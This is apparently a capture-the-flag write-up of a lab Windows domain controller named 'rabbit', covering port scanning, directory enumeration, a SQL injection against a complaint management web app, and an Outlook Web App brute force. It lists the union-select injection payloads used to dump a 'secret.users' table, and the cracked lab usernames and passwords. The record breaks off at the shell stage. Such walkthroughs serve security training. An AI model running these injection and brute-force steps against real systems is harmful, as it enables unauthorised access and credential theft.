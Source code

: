 # rabbit



## nmap



PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
389/tcp   open     ldap
443/tcp   open     https
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
808/tcp   open     ccproxy-http
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3306/tcp  open     mysql
6001/tcp  open     X11:1
6002/tcp  open     X11:2
6003/tcp  open     X11:3
6004/tcp  open     X11:4
6005/tcp  open     X11:5
6006/tcp  open     X11:6
6007/tcp  open     X11:7
8080/tcp  open     http-proxy
49165/tcp filtered unknown
65129/tcp filtered unknown

- look like a active directory domain controller



## http

- box has CN=RABBIT, adding it to hosts file
- there 3 different webservers and all different 
- they are on ports 80,443,8080



#### gobuster

- using gobuster on all of the for directory search
- three interesting subdirectories were found



1. outlook web application at port 443 but we need credentials

![image-20200917155510318](rabbit.assets/image-20200917155510318.png)



2. Joomla at port 8080 in joomla subdirectory there are no known exploit for this version

![image-20200917155635891](rabbit.assets/image-20200917155635891.png)



3. complain management system in port 8080 in another subdirectory

![image-20200917155712914](rabbit.assets/image-20200917155712914.png)



- complain management system is vulnerable to sql injection so we can try it to enumerate users and credentials.
- we need to access that url first we will create a account and see if we can access it

![image-20200917160012711](rabbit.assets/image-20200917160012711.png)



## sqli

-  we confirm it has sql injection

![image-20200917160902523](rabbit.assets/image-20200917160902523.png)



```
sql queries to extract information
link injectable		http://192.168.1.104/view.php?mod=admin&view=repod&id=plans


union select 1,schema_name,2,3,4,5 from information.schema.schemata--

```

```
union select 1,version(),3,user(),5--
```

![](rabbit.assets/image-20200917163043087.png)





```
union select 1,schema_name,3,4,5 from information_schema.schemata--
```

![image-20200917163006018](rabbit.assets/image-20200917163006018.png)







```
union all select 1,table_name,3,4,5 from information_schema.tables where table_schema=0x736563726574 --
```

- dumping tables in secret database

![image-20200917171912528](rabbit.assets/image-20200917171912528.png)





```
union all select 1,column_name,3,4,5 from information_schema.columns where table_schema=0x736563726574 and table_name=0x5573657273--
```

- check for columns in secret database

![image-20200917171647442](rabbit.assets/image-20200917171647442.png)



```
union all select 1,concat(username,0x2d,password),3,4,5 from secret.users-- -
```

![im](rabbit.assets/image-20200917171515705.png)



## hashcat

- md5 hashes

![image-20200917172051124](rabbit.assets/image-20200917172051124.png)

#### credentials

```
Ariel pussycatdolls
Magnus xNnWo6272k7x
Dumah popcorn
Malek barcelona
Moebius santiago
```



## metasploit

- owa bruteforce got 2 successful login

![image-20200917172639957](rabbit.assets/image-20200917172639957.png)

```
Ariel : pussycatdolls
Magnus : xNnWo6272k7x
```



## shell



#### notes

```
The security team has deployed windows defender and PowerShell constrain mode as the default organization security standard.
```

